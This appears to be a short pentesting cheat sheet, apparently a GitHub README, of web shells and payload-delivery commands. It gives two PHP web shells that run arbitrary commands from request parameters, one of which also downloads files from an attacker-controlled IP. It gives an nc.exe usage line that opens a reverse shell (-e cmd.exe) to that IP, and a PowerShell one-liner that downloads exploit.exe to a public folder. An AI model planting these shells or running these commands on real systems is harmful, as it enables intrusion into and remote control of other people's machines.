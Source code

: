 ## PHP Shell
*fupload* function is used to upload files to the remote machine\
*fexec* function is used to execute commands on the remote machine

usage:
```
shell.php?fupload=nc.exe
```
```
shell.php?fexec=nc.exe 10.10.14.107 1234 -e cmd.exe
```
code:
```
<?php 
 if (isset($_REQUEST['fupload'])) {
 file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.107:8000/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['fexec'])) {
 echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
 };
?>
```

## PHP Web Shell
usage:
```
shell.php?cmd=systeminfo
```
code:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

## Powershell File uploader
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.107:9005/exploit.exe', 'c:\Users\Public\Downloads\exploit.exe'
```

